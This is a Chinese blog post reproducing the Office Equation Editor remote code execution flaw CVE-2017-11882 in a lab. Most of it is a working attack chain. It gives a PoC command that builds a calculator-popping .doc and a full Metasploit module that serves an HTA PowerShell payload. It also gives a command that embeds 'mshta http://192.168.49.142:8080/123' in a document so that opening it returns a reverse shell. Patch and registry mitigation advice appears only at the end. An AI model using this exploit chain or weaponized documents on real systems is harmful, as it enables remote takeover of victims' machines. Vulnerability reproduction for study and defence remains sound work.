



# 【漏洞复现】Office 远程代码执行漏洞（CVE-2017-11882） - fox-yu - 博客园

> 原文：[`www.cnblogs.com/fox-yu/p/7884006.html`](https://www.cnblogs.com/fox-yu/p/7884006.html)

 昨晚看到的有复现的文章，一直到今天才去自己复现了一遍，还是例行记录一下。

POC:

```
https://github.com/Ridter/CVE-2017-11882/
```

一、简单的生成弹计算器的 doc 文件。

网上看到的改进过的 POC，我们直接拿来用，命令如下：

```
#python Command_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
```

生成的 doc 文件直接打开就可以弹出计算器。



影响的脚本：

```
    Office 365 Microsoft Office 2000 Microsoft Office 2003 Microsoft Office 2007 Service Pack 3 Microsoft Office 2010 Service Pack 2 Microsoft Office 2013 Service Pack 1 Microsoft Office 2016
```

二、生成可以反弹 shell 的 doc 文件

这里我们用到 MSF， 添加 EXP 脚本，进入/usr/share/metasploit-framework/modules/exploits/windows/，新建一个 office 文件夹，把以下的代码保存为 ps_shell.rb。

EXP 脚本

```
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote Rank = NormalRanking include Msf::Exploit::Remote::HttpServer

  def initialize(info = {}) super(update_info(info,
      'Name' => 'Microsoft Office Payload Delivery',
      'Description' => %q{
        This module generates an command to place within
        a word document, that when executed, will retrieve a HTA payload
        via HTTP from an web server. Currently have not figured out how
        to generate a doc.
      },
      'License' => MSF_LICENSE,
      'Arch' => ARCH_X86,
      'Platform' => 'win',
      'Targets' =>
        [
          ['Automatic', {} ],
        ],
      'DefaultTarget' => 0,
    ))
  end

  def on_request_uri(cli, _request)
    print_status("Delivering payload")
    p = regenerate_payload(cli)
    data = Msf::Util::EXE.to_executable_fmt(
      framework,
      ARCH_X86,
      'win',
      p.encoded,
      'hta-psh',
      { :arch => ARCH_X86, :platform => 'win '}
    )
    send_response(cli, data, 'Content-Type' => 'application/hta')
  end

  def primer
    url = get_uri
    print_status("Place the following DDE in an MS document:")
    print_line("mshta.exe \"#{url}\"")
  end
end
```

 保存之后如下:


之后我们进入 msf 控制台，选择好 payload 并且设置好 ip 和生成的 hta 文件路径。



然后利用上面的 POC 将生成的 hta 文件放到 doc 文件里。

```
#python Command109b_CVE-2017-11882.py -c "mshta http://192.168.49.142:8080/123" -o test123.doc
```

将生成的 test123.doc 文件放到目标机里打开，成功返回 shell。



修复建议：

1.下载微软对此漏洞补丁：[`portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882`](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882)，并且开启自动更新功能
2.在注册表中禁用该漏洞模块：
reg add “HKLM\SOFTWARE\Microsoft\Office\XX.X\Common\COM Compatibility\{0002CE02-0000-0000-C000-000000000046}” /v “Compatibility Flags” /t REG_DWORD /d 0x400

reg add “HKLM\SOFTWARE\Wow6432Node\Microsoft\Office\XX.X\Common\COM Compatibility\{0002CE02-0000-0000-C000-000000000046}” /v “Compatibility Flags” /t REG_DWORD/d 0x400

最后放几个 GitHub 上面的 POC：

[`github.com/starnightcyber/CVE-2017-11882`](https://github.com/starnightcyber/CVE-2017-11882)

[`github.com/embedi/CVE-2017-11882`](https://github.com/embedi/CVE-2017-11882)

[`github.com/Ridter/CVE-2017-11882/`](https://github.com/Ridter/CVE-2017-11882/)

```
笨鸟先飞早入林，笨人勤学早成材。

转载请注明出处：
撰写人：fox-yu  [`www.cnblogs.com/fox-yu/`](http://www.cnblogs.com/fox-yu/)
```